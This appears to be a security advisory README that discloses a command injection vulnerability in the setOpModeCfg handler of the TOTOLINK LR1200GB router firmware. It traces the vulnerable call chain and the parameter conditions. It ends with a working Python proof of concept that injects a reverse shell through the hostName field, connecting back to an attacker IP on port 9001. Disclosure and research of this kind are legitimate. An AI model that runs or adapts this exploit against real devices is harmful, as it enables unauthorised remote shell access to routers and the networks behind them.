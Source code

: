 # TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following images displays the code for a command injection vulnerability in the `setOpModeCfg` handler function of  `cstecgi.cgi`. The call chain is `sub_42eac8` -> `sub_42635c` -> `sub_4250b8`.Here's the constraints:
1. the value of `opmode` parameter !="gw"
2. the value of `proto` parameter !=6

At the end, the value of the `hostName` parameter will be spliced ​​into the `echo '%s' > /pro....` and be excuted by `doSystem` function, which allows an attacker to excute any command.

`sub_42eac8` func:
![code3](./code3.png)
![code4](./code4.png)
`sub_42635c` func:
![code5](./code5.png)
`proto` parameter in `sub_4250b8` func 
![code2](./code2.png)
`hostName` parameter in `sub_4250b8` func , 
![code1](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = {
    "opmode": "xxxx",
    "proto": "9",
    "hostName": "';sh -i >& /dev/tcp/192.168.109.129/9001 0>&1;#",
    "switchOpMode": "1",
    "topicurl": "setOpModeCfg",
    "token": "00000000000000000000000000000000"
}

requests.request("POST", url, data=payload)
```
![postman](postman.png)